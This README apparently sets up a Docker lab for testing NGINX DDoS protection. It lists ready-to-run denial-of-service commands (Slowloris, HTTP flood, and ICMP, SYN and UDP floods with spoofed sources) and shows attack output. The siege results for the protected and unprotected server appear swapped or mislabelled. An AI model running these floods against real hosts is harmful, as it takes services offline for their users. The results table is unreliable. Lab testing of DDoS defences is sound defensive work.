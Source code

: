 # DDOS

## Installation

```
docker-compose up --build
```

## Attacker Tools
```
docker-compose run kali bash
```

## Testing

### Slowloris
```
slowhttptest -c 2000 -H -g -o slowhttp -i 10 -r 200 -t GET -u ${TARGET_URL} -x 24 -p 3
```

Attack on NGINX server with DDoS protection enabled:
```
initializing:        0
pending:             0
connected:           571
error:               0
closed:              1429
service available:   YES
```

Attack on NGINX server with DDoS protection disabled:
```
initializing:        0
pending:             0
connected:           1029
error:               0
closed:              971
service available:   NO
```

```
curl -XGET http://localhost:5050
curl: (52) Empty reply from server
```

### HTTP Flood
```
siege -b -c 250 -t 3m ${TARGET_URL}
```

Attack on NGINX server with DDoS protection enabled:
```
{       "transactions":                         6656,
        "availability":                        80.05,
        "elapsed_time":                       179.78,
        "data_transferred":                   163.25,
        "response_time":                        0.36,
        "transaction_rate":                    37.02,
        "throughput":                           0.91,
        "concurrency":                         13.16,
        "successful_transactions":              6656,
        "failed_transactions":                  1659,
        "longest_transaction":                  2.91,
        "shortest_transaction":                 0.00
}
```

Attack on NGINX server with DDoS protection disabled:
```
{       "transactions":                       101967,
        "availability":                        99.59,
        "elapsed_time":                       179.61,
        "data_transferred":                  2914.89,
        "response_time":                        0.29,
        "transaction_rate":                   567.71,
        "throughput":                          16.23,
        "concurrency":                        161.81,
        "successful_transactions":            101988,
        "failed_transactions":                   420,
        "longest_transaction":                 16.18,
        "shortest_transaction":                 0.00
}
```

### ICMP Flood
```
hping3 --flood --rand-source -1 -p ${TARGET_PORT} ${TARGET_IP}
```

Block ICMP messaging using ```iptables -A INPUT --proto icmp -j DROP```

### Ping of Daeth
```
fping -b 65500 ${TARGET_IP}
```

### SYN Flood
```
hping3 -c 20000 -d 120 -S -w 64 -p ${TARGET_PORT} --flood --rand-source ${TARGET_IP}
```

### UDP Flood
```
hping3 --flood --rand-source --udp -p ${TARGET_PORT} ${TARGET_IP}
```
